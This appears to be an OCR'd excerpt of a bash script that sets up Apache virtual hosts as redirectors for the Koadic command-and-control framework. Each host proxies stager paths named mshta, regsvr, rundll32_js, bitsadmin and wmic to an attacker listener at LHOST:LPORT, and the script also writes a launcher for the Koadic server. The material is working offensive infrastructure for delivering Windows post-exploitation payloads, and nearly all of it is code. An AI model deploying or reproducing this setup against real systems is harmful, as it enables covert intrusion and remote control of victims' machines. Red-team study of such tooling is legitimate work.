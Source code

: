 ```bash
for DOMAIN in "${DOMAINS[@]}"; do
    cat > "/etc/apache2/sites-available/${DOMAIN}.conf" << EOF
<VirtualHost *:${HTTP_PORT}>
    ServerName ${DOMAIN}
    ServerAlias www.${DOMAIN}
    DocumentRoot /var/www/${DOMAIN}
    
    <Directory /var/www/${DOMAIN}>
        Options -Indexes +FollowSymLinks
        AllowOverride All
        Require all granted
    </Directory>
    
    ErrorLog \${APACHE_LOG_DIR}/${DOMAIN}_error.log
    CustomLog \${APACHE_LOG_DIR}/${DOMAIN}_access.log combined
    
    # Redirect to Koadic server
    RewriteEngine On
    RewriteRule ^/mshta$ http://${LHOST}:${LPORT}/mshta [P]
    RewriteRule ^/regsvr$ http://${LHOST}:${LPORT}/regsvr [P]
    RewriteRule ^/rundll32_js$ http://${LHOST}:${LPORT}/rundll32_js [P]
    RewriteRule ^/bitsadmin$ http://${LHOST}:${LPORT}/bitsadmin [P]
    RewriteRule ^/wmic$ http://${LHOST}:${LPORT}/wmic [P]
</VirtualHost>
EOF

    # Create document root
    mkdir -p "/var/www/${DOMAIN}"
    
    # Enable site
    a2ensite "${DOMAIN}.conf"
done

# Set up listener script
cat > "${STAGERS_DIR}/start_koadic_listener.sh" << EOF
#!/bin/bash
cd "$KOADIC_PATH"
python3 koadic.py
EOF
chmod +x "${STAGERS_DIR}/start_koadic_listener.sh"

# Reload Apache if it's running
if systemctl is-active --quiet apache2; then
    systemctl reload apache2
fi

echo "Koadic stagers have been generated in $STAGERS_DIR"
echo "VirtualHost configurations created for: ${DOMAINS[*]}"
echo "Run ${STAGERS_DIR}/start_koadic_listener.sh to start Koadic"
echo "Remember to set up DNS or hosts file entries for the domains"
```


 [Version]: 4.6.0 BC Security | [Web]: https://github.com/BC-SECURITY/Empire